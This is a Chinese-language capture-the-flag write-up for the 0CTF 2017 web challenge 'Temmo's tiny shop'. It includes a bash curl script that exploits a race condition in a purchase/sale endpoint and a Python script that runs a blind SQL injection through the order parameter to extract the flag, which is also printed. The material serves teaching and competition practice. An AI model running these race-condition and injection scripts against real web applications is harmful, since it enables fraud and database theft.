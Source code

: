 ```yaml
---
title: WP for 0CTF2017 WEB
categories: [CTF]
tags: [CTF, Writeup, WEB, 0CTF]
---
```


2017年0CTF，WEB部分题目的Writeup。

## Temmo’s tiny shop

### 条件竞争

本题首先要获取!HINT!，但是初始钱包里只有4000，而HINT要价8000，此处使用**条件竞争（race condition）**这一漏洞来提升wallet的数值。利用两个浏览器登录同一账号，使用两个COOKIE来同时进行售卖的动作，则两次售卖动作都会成功。bash代码如下

``` bash
#!/bin/bash
cookie1="PHPSESSID=m19tgi4tq3eptm53pss14dc910"
cookie2="PHPSESSID=39083e7nft6kbvkjvph29socb0"

url="http://202.120.7.197/app.php"

curl "$url?action=buy&id=2" -b $cookie1
curl "$url?action=sale&id=2" -b $cookie1 &
curl "$url?action=sale&id=2" -b $cookie2
```

得到HINT的提示：

	OK! Now I will give some hint: you can get flag by use `select flag from ce63e444b0d049e9c899c9a0336b3c59`

### SQL盲注

接下来便是sql注入，注入点在search功能的order参数上，payload可以这样构造

	http://202.120.7.197/app.php?action=search&keyword=&order=if(substr((select(flag)from(ce63e444b0d049e9c899c9a0336b3c59)),1,1)like(0x00),price,name)

因为没有回显，对flag进行逐个字符的爆破，遍历ascii码表，通过返回内容中商品的顺序来判断每个字符的值。python代码如下：

``` python
#!/usr/bin/python
import requests


url = "http://202.120.7.197/app.php"

param = "?action=search&keyword=&order=if(substr((select(flag)from(ce63e444b0d049e9c899c9a0336b3c59)),{},1)like({}),price,name)"

headers = {"Cookie" : "PHPSESSID=39083e7nft6kbvkjvph29socb0"}
answer=''

for i in range(40):
    for j in range(128):
        if j == 37:
            continue
        content = requests.get(url+param.format(str(i), hex(j)), headers=headers).content
        print param.format(str(i), hex(j))
        print content
        if content.find('"id":"6"') < content.find('"id":"3"'):
            answer += chr(j)
            print chr(j)
            break

print answer
```

然后得到flag

	FLAG_R4CE_C0NDITI0N_I5_EXCITED_

OVER~